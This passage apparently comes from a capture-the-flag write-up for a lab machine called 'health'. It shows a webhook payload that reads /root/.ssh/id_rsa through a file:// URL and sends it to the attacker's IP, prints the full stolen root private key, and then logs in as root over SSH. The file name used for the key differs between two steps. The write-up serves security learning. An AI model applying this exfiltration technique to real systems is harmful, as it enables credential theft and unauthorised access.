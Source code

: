 ```bash
{"webhookUrl":"http:\/\/10.10.16.6\/","monitoredUrl":"file:\/\/\/root\/.ssh\/id_rsa","health":"up","body":"-----BEGIN RSA PRIVATE KEY-----\nMIIEowIBAAKCAQEAwddD+eMlmkBmuU77LB0LfuVNJMam9\/jG5NPqc2TfW4Nlj9gE\nKScDJTrF0vXYnIy4yUwM4\/2M31zkuVI007ukvWVRFhRYjwoEPJQUjY2s6B0ykCzq\nIMFxjreovi1DatoMASTI9Dlm85mdL+rBIjJwfp+Via7ZgoxGaFr0pr8xnNePuHH\/\nKuigjMqEn0k6C3EoiBGmEerr1BNKDBHNvdL\/XP1hN4B7egzjcV8Rphj6XRE3bhgH\n7so4Xp3Nbro7H7IwIkTvhgy61bSUIWrTdqKP3KPKxua+TqUqyWGNksmK7bYvzhh8\nW6KAhfnHTO+ppIVqzmam4qbsfisDjJgs6ZwHiQIDAQABAoIBAEQ8IOOwQCZikUae\nNPC8cLWExnkxrMkRvAIFTzy7v5yZToEqS5yo7QSIAedXP58sMkg6Czeeo55lNua9\nt3bpUP6S0c5x7xK7Ne6VOf7yZnF3BbuW8\/v\/3Jeesznu+RJ+G0ezyUGfi0wpQRoD\nC2WcV9lbF+rVsB+yfX5ytjiUiURqR8G8wRYI\/GpGyaCnyHmb6gLQg6Kj+xnxw6Dl\nhnqFXpOWB771WnW9yH7\/IU9Z41t5tMXtYwj0pscZ5+XzzhgXw1y1x\/LUyan++D+8\nefiWCNS3yeM1ehMgGW9SFE+VMVDPM6CIJXNx1YPoQBRYYT0lwqOD1UkiFwDbOVB2\n1bLlZQECgYEA9iT13rdKQ\/zMO6wuqWWB2GiQ47EqpvG8Ejm0qhcJivJbZCxV2kAj\nnVhtw6NRFZ1Gfu21kPTCUTK34iX\/p\/doSsAzWRJFqqwrf36LS56OaSoeYgSFhjn3\nsqW7LTBXGuy0vvyeiKVJsNVNhNOcTKM5LY5NJ2+mOaryB2Y3aUaSKdECgYEAyZou\nfEG0e7rm3z++bZE5YFaaaOdhSNXbwuZkP4DtQzm78Jq5ErBD+a1af2hpuCt7+d1q\n0ipOCXDSsEYL9Q2i1KqPxYopmJNvWxeaHPiuPvJA5Ea5wZV8WWhuspH3657nx8ZQ\nzkbVWX3JRDh4vdFOBGB\/ImdyamXURQ72Xhr7ODkCgYAOYn6T83Y9nup4mkln0OzT\nrti41cO+WeY50nGCdzIxkpRQuF6UEKeELITNqB+2+agDBvVTcVph0Gr6pmnYcRcB\nN1ZI4E59+O3Z15VgZ\/W+o51+8PC0tXKKWDEmJOsSQb8WYkEJj09NLEoJdyxtNiTD\nSsurgFTgjeLzF8ApQNyN4QKBgGBO854QlXP2WYyVGxekpNBNDv7GakctQwrcnU9o\n++99iTbr8zXmVtLT6cOr0bVVsKgxCnLUGuuPplbnX5b1qLAHux8XXb+xzySpJcpp\nUnRnrnBfCSZdj0X3CcrsyI8bHoblSn0AgbN6z8dzYtrrPmYA4ztAR\/xkIP\/Mog1a\nvmChAoGBAKcW+e5kDO1OekLdfvqYM5sHcA2le5KKsDzzsmboGEA4ULKjwnOXqJEU\n6dDHn+VY+LXGCv24IgDN6S78PlcB5acrg6m7OwDyPvXqGrNjvTDEY94BeC\/cQbPm\nQeA60hw935eFZvx1Fn+mTaFvYZFMRMpmERTWOBZ53GTHjSZQoS3G\n-----END RSA PRIVATE KEY-----\n"}
```
{: .nolineno }

now we save the file as `root_rsa`, take care of the permission with `chmod 600 root_rsa`

as log in as the root user and get the flag

```bash
➜  ssh root@10.10.11.176 -i root_id_rsa
The authenticity of host '10.10.11.176 (10.10.11.176)' can't be established.
ED25519 key fingerprint is SHA256:K0WrmjTWDZhl/D/mYbJSv/cBLF1Jnx0T2auXQQDc7/Q.
This key is not known by any other names
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.11.176' (ED25519) to the list of known hosts.
Welcome to Ubuntu 18.04.6 LTS (GNU/Linux 4.15.0-191-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Sat Jan  7 10:18:22 UTC 2023

  System load:  0.0               Processes:           181
  Usage of /:   66.5% of 3.84GB   Users logged in:     1
  Memory usage: 15%               IP address for eth0: 10.10.11.176
  Swap usage:   0%

0 updates can be applied immediately.

Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings

Last login: Sat Jan  7 10:18:07 2023 from 10.10.16.6
root@health:~# whoami;id;hostname
root
uid=0(root) gid=0(root) groups=0(root)
health
```
{: .nolineno }
